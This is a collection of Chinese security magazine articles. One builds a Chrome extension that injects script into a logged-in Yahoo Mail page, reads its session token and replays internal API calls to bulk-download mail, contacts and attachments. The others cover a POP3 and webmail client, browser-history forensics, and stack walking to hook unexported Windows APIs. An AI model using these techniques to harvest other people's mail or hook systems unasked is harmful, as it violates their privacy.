本文的主要内容是编写一款 Chrome 浏览器插件，用来在用户登录邮箱时将用户的通讯录、收件箱中的邮件和附件自动下载到本地。这里用到了一个开源程序“npapi-file-io”，项目地址为 https://github.com/airyland/npapi-file-io，在这里对这个项目的贡献者表示感谢。首先下载 Chrome 浏览器并安装。开发插件需要新建一个文件夹，例如“myExt”，并新建一个文件“manifest.json”。它是 Chrome 浏览器插件的配置文件，名字一定要正确，否则会无法识别。一个相对完整的 manifest.json 文件包含的内容如下：

```json
{
  "name": "MyExt",
  "version": "1.0",
  "description": "Download Emails",
  "background": { "page": "background.html" },
  "permissions": ["experimental", "tabs", "http://*/*", "https://*/*"],
  "plugins": [{"path": "npapi-file-io-32.dll", "public": true}],
  "manifest_version": 2
}


```

manifest.json 是一个 JSON 文件，要注意“manifest_version": 2”这句。网上很多 Chrome 浏览器扩展程序里没有这句，现在没有这句代码，插件会报错。plugins 这个节点表示扩展程序的路径，在这里需要它进行文件保存，Chrome 可以通过该节点的 path 子节点获得 npapi-file-io 插件的路径。permissions 这个节点用来设置插件可以进行操作的权限。background 节点指向一个网页 background.html，这个网页用来具体执行插件所要进行的操作。这里我们不需要将其显示出来，而是直接引入了一些需要的 JS 文件。要注意这个网页，Chrome 不允许其中包含 JS 代码，所有代码需要写在单独的 JS 文件里。name、version 和 description 这三个属性分别是浏览器插件的名称、版本号和描述设置。

### 开始编写 Chrome 插件

点击 Chrome 浏览器左上角的工具栏，在弹出的菜单栏中选择“工具→管理扩展程序”，在弹出的菜单页右上角选择“开发者模式”，如图 1 所示，会出现“载入正在开发的扩展程序...”按钮，点击此按钮就可以载入开发的扩展程序了。
图 1

此时可能会遇到如图 2 所示的问题，就是不允许加载浏览器扩展。我们有两个解决办法：

- 在浏览器地址栏里输入“chrome://flags/”，找到如图 3 所示的应用，选择启用即可；
- 启动 Chrome 浏览器时使用参数“--flag-switches-begin --enable-experimental-extension-apis --flag-switches-end”。

这两个方法都可以使扩展程序成功加载插件。
图 2
图 3

### Yahoo 邮箱邮件下载

我们要监视邮箱网页，其他网页则不关心，这就需要在网页跳转时监视 URL 地址了。可以新建一个 background.js 文件来监视它。chrome.tabs.onUpdated.addListener 用来添加对 tab 跳转的监视。

我们先登录雅虎邮箱，能看到邮箱的 URL 为：http://cn.mg20.mail.yahoo.com/neo/launch，用正则表达式“/http:\/\/[^\/]*\.mail\.yahoo\.com/”来判断一下，只有 URL 符合，就认为当前 tab 是雅虎邮箱。好了，我们已发现 Yahoo 的标签页了，下一步要细心分析一下 Yahoo 自身是怎么获得邮箱列表的。

打开收件箱，开启网络监控程序，下拉一下收件箱，发现数据是动态加载的，可以从网络监控程序里看出一些眉目，如图 4 所示。
图 4

原来是这样加载邮件列表信息的，那我们是不是可以模拟操作一下，也获取我们需要的数据呢？当然没问题。先分析一下参数，startInfo 和 numInfo 这两个，将其参数分别设置成 0 和邮件总数，就能获得完整列表了。试一下，OK，成功！剩下的两个参数 wssid 和 windowid 和 r 如何获得呢？查看一下网页源码，从网页里可以找到 wssid：“FahnmsLrNbk”，与 URL 里是对应的，出处在此。剩下的两个 windowid 和 r 无论设置为何值都不影响结果，将其设置成一个定值就可以了。

继续分析网页源码，我们还需要知道收件箱里到底有多少封信。功夫不负有心人，总算在源码中找到了这样一段代码，共计 1886 封信，正是我邮箱里的信件数。

```json
{"fid":"Inbox","name":"Inbox","isSystem":true,"total":1886,"unread":499,"size":264879815}
```

到目前为止，获得邮件列表的数据都有了来源，接下来就是让程序自动获得这些数据了。这里还需要 Chrome 浏览器的一项功能，就是插件可以向网页注射 JavaScript 文件或代码：chrome.tabs.executeScript(tabId, {file: "yahooNewInjection.js"})。我选择了注射一个 JS 文件，文件名为 yahooNewInjection.js，其中的代码将可以操作 Yahoo 邮箱的 DOM，具体执行的内容就是获得我们所需要的前台数据，将结果保存成 JSON 对象并回传给监听对象，代码如下：

```javascript
function getKey(){
    var ele = document.createElement("script");
    ele.id = "myInjectionJS"
    ele.innerHTML = "var jsonObj = {}; jsonObj.wssid = NeoConfig.wssid; jsonObj.windowId = NeoConfig.windowId; jsonObj.urlOrigin = window.location.origin; NeoConfig.folders.folder.forEach(function(folder){ if(folder.folderInfo.fid == 'Inbox'){ console.log(jsonObj.total = folder.total)}}); var txt = JSON.stringify(jsonObj); document.getElementById('myInjectionJS').innerHTML=txt;"
    document.body.appendChild(ele)
    var txt = document.getElementById('myInjectionJS').innerHTML;
    document.body.removeChild(document.getElementById('myInjectionJS'))
    return txt;
}
var id = getKey();
chrome.extension.sendRequest(getKey());


```

现在我们可以轻松获取邮件列表了。通过 Ajax 异步传输，轻松获取整个收件箱的文件列表。获取邮件列表以后，可以得到每封邮件的 ID、发件人姓名、发件人邮箱、收件人姓名、收件人邮箱了，把这些信息存起来备用，之后就是获取邮件本身和相关的附件了。还是本着从网页里寻找答案的精神，继续使用网络探测程序，点开一封邮件，会看到如图 5 所示的一段请求，参数与我们之前获得的差不多，要注意这次用的是 POST。我们还要关心一下它到底 POST 了哪些数据，如图 6 所示。数据确实不少，我们现在来分析一下。前面几个参数没什么好说的，似乎都是不变的内容，一会测试一下直接提交是否可行。我们主要看一下 message 这个字段，参数是一个数组，有 4 组类似的内容，其中 mid 和刚才获得的邮箱列表中的数字类似，查一下发现果然存在，原来是邮件 ID。只打开了一封邮件，为什么会上传 4 组呢？测试后发现只上传一组也一样 OK，也许是 Yahoo 提高用户体验先缓存了一些。
图 5

```json
{"method":"GetDisplayMessage","params":[{"fid":"Inbox","enableRetry":true,"textToHtml":true,"rIDetection":true,"emailDetection":true,"emailComposeUrl":"mailto:%e%","truncateAt":100000,"charsetHint":"","annotateOption":{"annotateText":"inline"},"message":[{"blockImages":"none","restrictCSS":true,"expandCIDReferences":true,"enableWarnings":true,"mid":"2_0_0_1_1538263_AEZmpcoAADxjS5GuaQ013RB+gYE"},{"blockImages":"none","restrictCSS":true,"expandCIDReferences":true,"enableWarnings":true,"mid":"2_0_0_1_1540083_AEhmpcoAASEiS5DH1A4N2B5BA5c"},{"blockImages":"none","restrictCSS":true,"expandCIDReferences":true,"enableWarnings":true,"mid":"2_0_0_1_1537164_AEZmpcoAAhr3S5QnkwyXMKWEt9I"},{"blockImages":"none","restrictCSS":true,"expandCIDReferences":true,"enableWarnings":true,"mid":"2_0_0_1_1541059_AEdmpcoAADROS5BMuAngDRoP7FU"}]}]}
```

图 6

至此为止，POST 给服务器的 URL 参数和 Data 数据来源都有了，提交一下查看返回的信息是什么样子。返回的数据很长，一眼就能看到很多内容就是 HTML 代码，把这段 HTML 代码存储后查看，果然是邮件体，获得邮件体的任务也达成了。

要获得附件，就要找一封有附件的邮件分析。按照上面的步骤，在邮件结尾果然找到了附件文件，那么如何下载呢？还是要借助网络探测程序，看看 Yahoo 到底做了一些什么。我们可以找到一个类似下面的请求：

```text
http://cn.mg20.mail.yahoo.com/ws/mail/v2.0/jsonrpc?appid=YahooMailNeo&m=VirusScanAttachments&wssid=yl9syRfDDmv&windowid=906929783&r=1363056795460
```

和之前的几乎一样，只是“m=VirusScanAttachments”不同，原来 Yahoo 在进行附件杀毒。这次也是 POST 提交的数据，看一下到底提交了些什么，代码如下：

```json
{"method":"VirusScanAttachments","params":[{"downloadInfo":[{"fid":"inbox","mid":"2_0_0_1_25664_AEVmpcoAADTWUSsskw06LFJyJuE","pid":"3"}],"archiveName":"Attachments_2013_03_12","archive":false}]}


```

mid 是邮件 ID，archiveName 的参数是 Attachments 加当前日期，这些都好解决，那么 pid 是从哪里来的呢？这个还要从此次获取的邮件数据中查找。通过附件名称很轻松就可以找到，原来邮件正文和附件都是一段 JSON 数据，只是邮件正文的属性为 "disposition":""，而附件的属性为 "disposition":"attachment"，附件的 PID 就在这里。

我们自己组织一段数据并提交，看看能不能获得附件的下载地址。按照上面的方法向服务器提交请求，结果很明显会有一个 downloadUrl，尝试直接将这段 URL 输入浏览器，附件成功下载。

现在，我们已经找到邮件列表、邮件正文和附件了，接下来就是将这些信息保存到本地的文件夹。这里就需要 npapi-file-io 插件了，这个插件功能比较多，此处主要使用它的创建文件夹、写入文本文档和写入二进制文档这三项功能。原有项目在接受中文作为文件名时使用 UTF-8 会造成乱码，利用“char * ConvertUTF8ToASCII (const char* cpUTF8)”方法将 UTF-8 编码转换成为 ASCII 编码，即可保证中文文件名正确。具体如何开发 NPAPI 插件和需要注意的问题，如果大家有兴趣的话，我会在后续文章中继续说明。

## Yahoo! 邮箱取信程序的实现

文/图 DebugMe

本文将带领大家实现一个邮箱取信程序，首先介绍下电子邮件系统的工作原理以及相关协议。电子邮件与普通邮件的工作方式非常类似，发信者注明收件人的姓名与地址（邮箱地址），发送方服务器把邮件传到接收方服务器，收件方服务器再把邮件放到收件人的邮箱中，流程如图 1 所示。
图 1

其中涉及到的协议主要有用于邮件传送的 SMTP 协议和用于邮件接收的 POP3、IMAP 协议。SMTP 是 Internet 上传输电子邮件的标准协议，用来接收和发送电子邮件，使用 TCP 端口 25，通常用于把电子邮件从客户机传输到服务器，或者从某一服务器传输到另一个服务器。POP3 规定了个人计算机如何连接到互联网上的邮件服务器进行收发邮件的协议，它允许用户从服务器上把邮件存储到本地主机（即自己的计算机）上，同时根据客户端的操作删除或保存在邮件服务器上的邮件。IMAP 是与 POP3 对应的另一种协议，它能够从邮件服务器上获取有关 E-mail 的信息或直接收取邮件，具有高性能和可扩展性的优点。该协议能使用户可以维护自己在服务器上的邮件目录，可以直接抓取邮件的特定部分。它与 POP3 的区别是：IMAP 只下载邮件主题，并不是把所有邮件内容都下载下来，且邮件服务器中还保存着邮件的副本，并没有把邮件删除。电子邮件有两种格式：RFC822 和 MIME 电子邮件格式。前者定义的电子邮件格式和现实生活中使用的邮件非常类似，通常由信头字段和正文组成，信头字段包含一些邮件的相关属性，如收件人、发件人等，而正文是 ASCII 文本，二者之间用空行隔开。下面是一封 RFC822 电子邮件的例子：

```text
Return-Path: root@localhost.localdomain

Received: from root (localhost.localdomain in [127.0.0.1])

    By localhost.localdomain in (8.12.8/8.12.8) with SMTP id p278t6sj002700

For root@localhost; Mon, 7 Mar 2011 17:08:20 +0800

Date: Mon, 7 Mar 2011 17:08:20 +0800

From: root <root@localhost.localdomain>

Message-Id:<201103070908.p278t6sj002700@localhost.localdomain>

Just An Example!


```

由于 RFC822 只对电子邮件的文本格式进行了定义，并未对多媒体信息、附件等进行定义，所以一些非英语字符消息和二进制文件，以及图像、声音等非文字消息都不能通过电子邮件进行传输。因此，MIME 对它进行了扩展，使其能够支持非 ASCII 字符、二进制格式附件等多种格式的邮件。目前基本上都是使用的 MIME 格式。

前面只是对相关知识进行了简单的介绍，都是些概念性的东西，读者可以查阅相关资料以深入了解。本文将通过 POP3 协议实现一个邮箱取信程序，下面开始吧。

### POP3 取信

POP3 协议默认工作在 TCP 110 端口，采用 C/S 架构。POP3 客户向 POP3 服务器发送命令并且等待响应，POP3 命令采用命令行形式，用 ASCII 码表示。服务器响应是由一个单独的命令行或者多个命令行组成，响应第一行以 ASCII 文本 +OK 或者 -ERR（OK 指成功，ERR 指失败）来表示相应的操作是成功还是失败。表 1 是 POP3 的标准命令。

| POP3 命令 | 描述 |
|---|---|
| USER \<username\> | 验证用户身份，username 是邮箱地址中位于 @ 前的字符串，若服务器返回状态指示符（“+OK”），则客户端可以发送 PASS 命令以完成认证。 |
| PASS \<password\> | 与用户名对应的密码。 |
| NOOP | 空操作，用于测试连接。 |
| LIST | 请求指定邮件的大小信息。 |
| STAT | 请求邮箱的统计信息，如邮件数等。 |
| RETR \<msgid\> | 从服务器取回指定的邮件，msgid 为邮件的消息号。 |
| TOP \<msg\> \<n\> | 获取指定邮件的前 n 行内容。 |
| DELE \<msgid\> | 将指定邮件标记为删除，只有当执行 QUIT 命令后服务器才真正删除邮件。 |
| RSET | 撤销所有的 DELE 命令。 |
| APOP | 切换验证机制。 |
| UIDL \<msgid\> | 获取指定邮件的唯一标识。 |

| 命令 | 说明 |
|---|---|
| QUIT | 终止会话。 |

表1

我们可以通过 Telnet 来详细了解 POP3 协议。首先通过 Telnet 连接 POP3 邮件服务器的 110 端口，如图2所示；连接成功后的结果如图3所示，此时我们就可以使用上述命令与 POP3 服务器进行交互，首先进行身份认证，即使用 USER 和 PASS 命令，如图4所示。
图2
图3
图4

验证成功后，就可以进行取信、查询等操作了。如使用 LIST 命令获取每个邮件的大小，STAT 命令获取邮件的统计信息等，如图5所示。若需要取信的话，则使用 RETR 命令，后面跟邮件编号，如图6所示。当需要退出时，使用 QUIT 命令即可。
图5
图6

到此，相信读者也应该对 POP3 协议有了更具体的认识。下面，我们通过编程来实现一个简单的 POP3 取信程序，整个过程非常简单，无非就是客户端发送命令，然后等待接收数据，如此循环直到退出。这里只说说编写过程中需要注意的几个地方：第一，POP3 的每个命令都是以回车换行符结尾的字符串，在 C 语言中即“\r\n”。第二，在获取邮件的内容时（RETR 命令），服务器返回的数据是以“\r\n”结尾的，可以通过它来判断是否读取完数据。第三，取回的邮件是原始的电子邮件格式（即 RFC822 或 MIME 的），不具备可读性，需要将其保存为后缀为 .eml 的文件，然后导入到邮件客户端程序中（如 Foxmail）才方便阅读。

最后，读者可能发现，现在我们收取邮件基本上都没用到邮件客户端，而是直接在浏览器中进行收发的，这又是什么原理呢？这就是 WebMail，是随着 Internet 的不断发展而出现的一种非常方便的邮件收取方式。通过上面的 POP3 协议的例子，我们知道在使用 POP3 协议时，客户端是直接同邮件服务器交互的，而在 WebMail 中，则是通过浏览器使用 HTTP 协议向 Web 服务器发送相关的请求，Web 服务器再根据请求从邮件服务器中获取相关信息并返回给浏览器，从而达到收发信件的目的。可以看出，Web 服务器充当了一个代理的功能。WebMail 并没有像 POP3 那样统一的协议，因此，浏览器在与 WebMail 服务器交互时所使用的数据格式也因 WebMail 服务提供商而异，但是有一个共同点就是都是封装在 HTTP 协议中的。下面我们通过实现一个简单的客户端来接收 Yahoo 邮箱中的信件。

## Web 取信

第一步工作就是需要分析与 Yahoo WebMail 交互时的数据格式（可称为协议），这里需要用到一个工具 HTTPAnalyzer（当然还有其它工具，可以百度之），该工具可以监视浏览器发送和接收到的 HTTP 数据包，方便我们分析。另外，HTTP 协议相关的知识，本文不再讲述，读者可参考其它资料。

### 1）登录

在浏览器中打开 Yahoo 邮箱的登录页面，输入用户名和密码，然后点击登录，我们可以在 HTTPAnalyzer 中观察本次登录与服务器的交互过程，如图7所示。
图7

从图中可以看出，登录过程使用的是 **POST** 方式，提交的地址是 `https://edit.bjs.yahoo.com/config/login`，使用的是 HTTPS 协议。POST 的数据如图8所示，其中包含了用户名和密码，我们只需要关注这两个即可（其它的可以照着填）。
图8

### 2）获取邮件列表

我们先看看请求，如图9所示。
图9

请求方式是 GET，地址是“http://us-mg6.mail.yahoo.com/ws/mail/v2.0/formrpc”，请求参数为：

```
?appid=YahooMailNeo&m=ListMessages&o=json&fid=Inbox&sortKey=date&sortOrder=down&startInfo=0&numInfo=50&wssid=_E/XEr5T8IH&windowid=23171666&r=1363949308510


```

各个参数的意义如下：

- **appid**：始终是 YahooMailNeo
- **m**：操作类型，获取邮件列表的操作是 ListMessages，获取文件夹列表是 ListFolders
- **o**：未知（可能是指示服务器采用 json 方式返回请求数据）
- **fid**：操作的文件夹，收件箱是 Inbox
- **sortKey**：排序方式，按日期排序是 date
- **sortOrder**：排序的方向
- **startInfo**：应该是邮件列表的起始 id 号
- **numInfo**：应该是指示本次操作返回多少封邮件列表
- **wssid**：本次登录成功后获得的会话 ID
- **windowid**：未知
- **r**：未知（似乎是个随机数）

这里比较重要的是 wssid，这是一个会话 ID，登录成功后，服务器会返回一个 ID 来标识本次登录过程，这个值可以在登录成功后服务器返回的页面中找到。本文通过搜索该页面来获取到该值。

请求成功后，服务器将返回邮件列表信息，如图10所示。
图10

服务器返回的数据是 JSON 字符串，这是什么东西呢？JSON（JavaScript Object Notation）是一种轻量级的数据交换格式，基于 JavaScript 的一个子集。举个简单例子：假如在 C 语言中有个结构体：

```c
struct A {
    .name = "test_name";
    .userid = "123456";
    .age = 33
}


```

我们可以用 JSON 将这个结构体表示成字符串的形式：`{"name":"test_name","userid":"123456","age":33}`。当然，这只是一个简单的例子，JSON 可以表示各种非常复杂的结构。这种字符串的表示方式不便于阅读，可以通过 JsonViewer 这个工具将其图形化显示，更多关于 JSON 的知识可查阅相关资料，本文不再讲述。

### 3）获取邮件

获取邮件的请求方式是 POST，查询参数和前面的基本一样，只不过 `m=GetDisplayMessage`，如图11所示。
图11

我们再看看 POST 提交的数据，如图12所示。
图12

这里注意两个地方即可，method 和 mid。mid 是要获取的邮件标识，可在获取邮件列表时获得，其余的字段可照着填。

### 4）获取附件

附件的获取分为两步：首先进行病毒扫描，然后服务器返回一个 URL，访问该 URL 即可下载到附件，如图13所示。
图13

请求方式为 POST，请求地址为 `/ws/mail/v2.0/jsonrpc`，查询参数为：`appid=YahooMailNeo&m=VirusScanAttachments&wssid=hn.qKjLw7uH&windowid=729474649&r=1364302293816`，病毒扫描的 m 为 VirusScanAttachments。

至此，从 Yahoo 邮箱中取信的相关数据格式就分析完了，可以根据分析出来的这些结果来自己实现一个 Yahoo WebMail 的取信程序。实现过程还是比较简单的，主要是对返回数据的解析比较繁琐，本文使用了一个轻量级的 JSON C 语言解析库 Jsonc，读者可在网上搜索下载。

另外，由于涉及到了 HTTPS 和 Cookie，若完全自己靠 Socket 来一步一步地实现，工作量很大，本文使用了 Windows 的 wininet 库，从而将工作重点放在主要功能上。

### 打造属于自己的 Web 数据取证系统

文/图 爱无言

计算机取证是指对计算机软件、硬件中存储的残留数据进行审计分析，找出具体依据，还原事件本质的过程。由于实际情况的不同，计算机取证可以分为开机取证和关机取证。这两种情况下，主要都是针对计算机的存储设备进行数据提取。从提取的数据类别上看，可以涉及到操作系统版本、网络残留数据、注册表或者系统配置文件、日志信息、可执行文件以及其它数据文件。在这些数据中，网络残留数据是非常关键的一个环节。

由于互联网和局域网络的普及，单个使用的计算机数量较为有限，大部分的计算机几乎都与不同种类的网络互相连接。网络上存在着各种安全隐患，而这其中网络罪犯的存在造成的威胁最大。对于网络犯罪的追查必须采用针对网络残留数据的计算机取证技术。

网络残留数据是指计算机通过网络进行数据传输和接收的过程中，产生在本地存储设备上的数据。这些数据信息可以是网络端口数值、网络连接地址、网络使用状态等。在网络残留数据中，Web 数据所占比例最大。这是因为从网络犯罪所使用的技术来看，基于对 Web 系统的恶意入侵最为常见，例如 SQL 注入漏洞、XSS 攻击、网页木马技术等，这些攻击技术都依托对 Web 系统的直接利用。同时，在网络犯罪活动中，各种信息交流常常以 Web 系统为依托进行。例如利用 Web Mail 服务进行犯罪活动安排，上传被窃密信息等。Web 系统已然成为网络犯罪活动中不可缺少的重要组成部分。为此，必须对 Web 数据进行严格细致的取证分析，获取犯罪分子的第一证据。本文主要研究的就是一款针对 Web 数据进行取证的实用性系统。

从市面上已有的 Web 数据取证系统来看，主要是利用对浏览器软件本地存储设备上残留下的 Web 数据进行查找和获取。所获得 Web 数据基本类型包括历史访问记录、Cookie 信息、Web 缓存文件等。在获取数据的过程中，需要对具体类型的数据进行分类处理，按照数据格式要求，提取具体数据字段。例如在对历史访问记录的提取过程中，残留的 Web 数据中有网址信息、访问时间、访问次数等信息，应当按照结构进行归类，以免发生数据信息提取错误的现象。按照 Web 数据取证的流程，Web 数据提取后需要进行数据分析和统计工作，这是 Web 数据取证系统的一个不可缺少的功能。大量的 Web 数据信息如果采用人工判定将会造成巨大的时间消耗。完整的 Web 数据取证系统应当提供全面、可靠、高效的数据分析功能。在分析过程中，需要采用权重值的比对，统计出数据中出现的高频率信息，最终得出被审计对象的 Web 访问行为规律。在数据分析的基础上，需要提供特定数据查询功能，在面对具体 Web 取证工作时，系统需要快速查找出关键敏感信息，为整个 Web 取证工作带来实质性的证据参考，提高工作效率。

Web 数据的提取，主要针对不同浏览器软件在本地存储设备上残留的 Web 数据进行准确获取。以 IE 浏览器为例，该浏览器软件所产生的 Web 数据主要保存在 index.dat 文件。该文件具有特定的数据格式，并且在不同的操作系统版本下，存在于不同的文件目录当中。哈希表可以用来找到 index.dat 文件内部保存的有效数据信息，其原理与 Windows 系统下 FAT 表的作用类似，可以是文件索引的关键信息。如果一个 index.dat 文件非常大，则会拥有多个哈希表，并且这些哈希表之间采用链表的形式进行连接，即每个哈希表包含一个指向下一个哈希表的指针。每一个哈希表的前四个字节设置为哈希表的长度，第五个字节到第八个字节为指向下一个哈希表的指针。

index.dat 文件的活动记录中包含了 Web 数据记录相关的三种信息，第一个信息是记录类型。记录类型有网址记录、LEAK 记录和重定向记录。其中，网址记录包含了用户访问过的网址信息，涉及具体网址全称、访问次数、访问时间等信息。LEAK 记录可以当作网址记录的一个备份，其所存在的数据与网址记录完全一致。重定向记录格式比较简单，只有数据长度信息。

根据上述原理，基于 IE 浏览器 Web 数据的提取工作，其具体实现的核心代码如下所示：

```c
do
{
    if (strncmp(pBuf + i, "LEAK", 4) && strncmp(pBuf + i, "URL", 4))
    {
        if (!strncmp(pBuf + i, "REDR", 4))
        {
            if (!strncmp(pBuf + 0x10 + i, "http://", 7))
            {
                if (strlen(pBuf + 0x10 + i) <= 0xFF) // 这里是判断字符串的长度
                {
                    strcpy(myUrlBuf, pBuf + 0x10 + i); // 小于255就直接strcpy拷过来
                }
                else
                {
                    memcpy(myUrlBuf, pBuf + 0x10 + i, 0xFC); // 大于的话就只拷前252个字符
                }
                result = CheckURL(myUrlBuf); // 检查得到的URL串
                if (!result) // 若符合要求，则记录！
                {
                    printf("%s\n", myUrlBuf);
                    nURLCnt++; // 计数
                }
            }
        }
    }
    else
    {
        if (!strncmp(pBuf + 0x60 + i, "http://", 7))
        {
            offset = 0x60;
LABEL_29:
            if (strlen(pBuf + offset + i) <= 0xFF)
            {
                strcpy(myUrlBuf, pBuf + offset + i);
            }
            else
            {
                memcpy(myUrlBuf, pBuf + offset + i, 0xFC);
            }
            result = CheckURL(myUrlBuf);
            if (!result)
            {
                printf("%s\n", myUrlBuf);
                FileTime.dwHighDateTime = *(DWORD *)(pBuf + 0x14 + i);
                FileTime.dwLowDateTime = *(DWORD *)(pBuf + 0x10 + i);
                FileTimeToLocalFileTime(&FileTime, &LocalFileTime);
                FileTimeToSystemTime(&LocalFileTime, &SystemTime);
                sprintf(szBuf, "%d年%d月%d日  %d点%d分%d秒",
                    SystemTime.wYear,
                    SystemTime.wMonth,
                    SystemTime.wDay,
                    SystemTime.wHour,
                    SystemTime.wMinute,
                    SystemTime.wSecond);
                printf("[%s]\n", szBuf);
                nURLCnt++;
            }
            goto LABEL_34;
        }
        else if (!strncmp(pBuf + 0x68 + i, "http://", 7))
        {
            offset = 0x68;
            goto LABEL_29;
        }
        else
        {
            if (strncmp(pBuf + 0x60 + i, "Visited", 7))
            {
                if (!strncmp(pBuf + 0x68 + i, "Visited", 7))
                {
                    if (strstr(pBuf + 0x68 + i, "@http:")
                        || strstr(pBuf + 0x68 + i, "@ftp:")
                        || strstr(pBuf + 0x68 + i, "@java"))
                    {
                        offset = 0x71;
                        goto LABEL_29;
                    }
                }
            }
            else
            {
                if (strstr(pBuf + 0x60 + i, "@http:")
                    || strstr(pBuf + 0x60 + i, "@ftp:")
                    || strstr(pBuf + 0x60 + i, "@java"))
                {
                    offset = 0x69;
                    goto LABEL_29;
                }
            }
        }
    }
}
```

对于除 IE 浏览器以外的主流浏览器软件来说，多采用数据库方式存储历史访问记录，在实现的具体细节上有所不同。以谷歌的 Chrome 浏览器为例，采用 SQLite DB 数据库进行 Web 数据存储，获取其 Web 数据的具体实现代码如下所示：

```c
try
{
    CppSQLite3DB db;
    CppSQLite3Query query;
    db.open(path);
    query = db.execQuery("select url,title from urls");
```

```cpp
while (!query.eof())
{
    CStringA utf8url;
    utf8url = query.fieldValue("url");
    CStringA utf8title;
    utf8title = query.fieldValue("title");
    ConvertUtf8ToGBK(utf8url);
    ConvertUtf8ToGBK(utf8title);
    history[0].Add(CString(utf8url));
    history[1].Add(CString(utf8title));
    query.nextRow();
}
db.close();
}


```

在 Web 数据提取之后，每一条数据信息都存在重复出现的几率，这是由于被审计对象可能对某一个 Web 网址进行多次访问，尤其在进行网络入侵等活动时，本地存储设备上会残留大量的相关 Web 数据。据此，可以设定一个权重值，对每一条 Web 数据进行权重累加计算，得出频率最高的信息，形成最终的用户行为规律。以统计分析 Web 历史访问记录为例，历史记录在进行存储时，一般都会记录下该网址访问次数，以此就可以作为权重值，设定相应阈值，当权重值超过阈值时，将给出分析结论。系统完成后的使用效果如图 1 所示。
图 1 Web 数据取证系统使用界面

以上介绍的 Web 数据取证系统开发过程比较简单，但在实际使用中的效果还是不错的。本文旨在抛砖引玉，如果大家能有更好的方法来实现，期待能在杂志上一起分享。

### 使用栈回溯技术 Hook 未导出 API

文/图 换心

在 Windows 系统中，程序运行时，内存栈记录了程序中函数和子过程的调用，还保存了运行时的部分局部变量信息。在某个时间点将进程挂起，对栈内容进行解析，可以获得很多有用的信息。栈回溯即是在某个特定时刻，对栈结构进行回溯分析，侧重于分析函数的调用链来达到某些目的，比如检测栈溢出、系统关键位置是否有钩子等。本文首先对栈的结构和回溯原理进行透析，然后再讲解栈回溯的一种应用：Hook 未导出的 API。

栈是一种线性链式的内存结构，用来存放程序运行过程中函数调用的相关数据，包括参数、返回地址、寄存器值和局部变量。通常情况下，程序的栈空间是由一个个栈帧组成的，栈帧之间依靠保存的 EBP 寄存器值以类似单向链表的方式链接在一起。由于在 Windows 系统中，栈内存往低地址方向扩展，所以栈基址值沿着栈帧建立的方向是递减序列，栈帧撤销的方向是递增序列。

程序运行过程中，每次调用一个函数，都会先将参数和返回地址压栈，然后跳转到该函数首地址处开始执行。而在执行函数时，会产生将 EBP 压栈的动作，如果函数内部有分配局部变量，也将存储在栈中。调用栈能完整地记录当前线程中形成的函数调用链。在调用栈中，位于顶部的是当前正在执行的函数，接下来是调用这个函数的主调函数，再下来是调用主调函数的函数，以此类推。当函数执行完返回时，会跳转到返回地址处继续执行，原先对应的栈帧空间会被收回。图 1 表示了函数调用和返回时栈的变化。
图 1

栈回溯就是在当前栈帧处，利用保存的 EBP 值，一层一层向上回溯，直到解析到最底层的栈帧，判断方法是 EBP 值为 0。伪代码如下：

```c
CurrentEBP = EBP;
while (CurrentEBP != 0)
{
    PreEBP = GetData(CurrentEBP);      /* 读取 CurrentEBP 地址处值为前栈帧基址 */
    RetAddress = GetData(CurrentEBP+4);/* 读取当前返回地址 */
    /* 加入需要的操作 */
    CurrentEBP = PreEBP;
}
```

需要注意的是，上面的代码运行的前提是，当前的栈空间是一个正常的栈帧链，未受到人为修改或破坏。如果某个栈帧链的 EBP 值已被篡改，就不能正常获取到下一栈帧的基址了。此时回溯代码可能会产生崩溃，因为读取了一个不能读取的指针（被修改后的内容）；也可能无法完整回溯出所有栈帧，因为栈基址域被置 0。因此，在读取 EBP 内容之前，应该做一些检查工作，来验证这个 EBP 是否符合一个正常栈基址的必要条件。通常从以下三点来判断：

- EBP 值指向的地址是否可读；
- EBP 值是否与 ESP 值的前两个字节相同，通常为 0x0012；
- 回溯时 EBP 是否呈现递增的规律，即当前获取的 EBP 值是否比它的前一个 EBP 值大。

这三点是 EBP 值没有被破坏的必要条件，但不是充分条件。

Windows 提供了一个 API 来完成栈回溯，如下所示。

```c
ULONG RtlWalkFrameChain(
    OUT PVOID *Callers,
    IN ULONG Count,
    IN ULONG Flags
);


```

参数 Callers 是一个数组，函数运行完后，里面存储的即为各个栈帧的返回地址值，Count 则为需要解析的栈帧数，Flags 为 0 时表示解析内核态栈帧，为 1 表示解析用户态栈帧，返回值则表示实际解析的栈帧数。如果只需要获取栈帧的返回地址值，那使用它极其方便。不过 RtlWalkFrameChain 运行的条件也是栈未受到破坏，而且它只能获取返回地址值，而不能获取 EBP 值、参数等。因此，如果需要更多的信息，还是手动编程解析栈比较好用。

栈回溯的原理其实很简单，但用途却很广。大家在编程时，经常需要 Hook 未导出的 API，最简单但最不稳定的办法就是硬编码，通过获取某个导出的 API，并计算它们之间的偏移，来达到目的；其次就是特征值搜索，记录下该 API 头部若干个字节，作为特征码，当该 API 所在的模块已经加载入内存后，就使用匹配的方式搜索定位。硬编码兼容性和移植性很差，而特征值搜索效率低、消耗高。使用栈回溯可以避免这些问题，原理如图 2 所示。
想要通过栈回溯技术来 Hook 未导出 API，首先需要找一个它会调用的导出 API，最好的情形是找到其内部调用的某个导出 API，这样栈回溯时只需回溯一层，但并不是每次都可以找到这样的 API，所以可以选择一个它一定会调用的 API 即可。用 UDAPI 代表未导出 API，用 DAPI 代表导出 API，则它们的关系是 UDAPI→DAPI，或 UDAPI→UDAPI→……→DAPI（→代表调用）。

接下来需要记录一个特征码。在获取栈帧数据后，如何确定哪一帧才是 UDAPI 所对应的栈帧呢？很容易想到的是根据 UDAPI 对应栈帧紧邻前一帧的返回地址值，通常这个值不会变，但如果系统开启了 ASLR，每次重开机后程序加载时 API 基址都在变动，这个值就无效了。那如何解决呢？仔细分析可以知道，紧邻前一帧的返回地址值表示的是 UDAPI 中调用函数指令的下一条指令在当前内存中的地址。因此，这条指令就可以作为特征码。为了更加准确，可以多读取一些指令作为特征码。根据我平常编程调试的经验，通常取 8 个字节就可以了。

但这里还有一个问题。在 UDAPI 中，可能存在多处调用而导致 DAPI 的调用。如果没有分析全面，就可能造成逃逸。因此，要么选择一个确信只会有一种调用路线的 DAPI，要么把所有的调用点都找出，不过这也并不难实现。WinDbg 可以对 Windows 系统中未导出的 API 下断点，因此可以在 UDAPI 和选择的 DAPI 上下断点，然后运行一些程序做测试，看是否存在多个调用点，如果存在就将特征值都记下来。

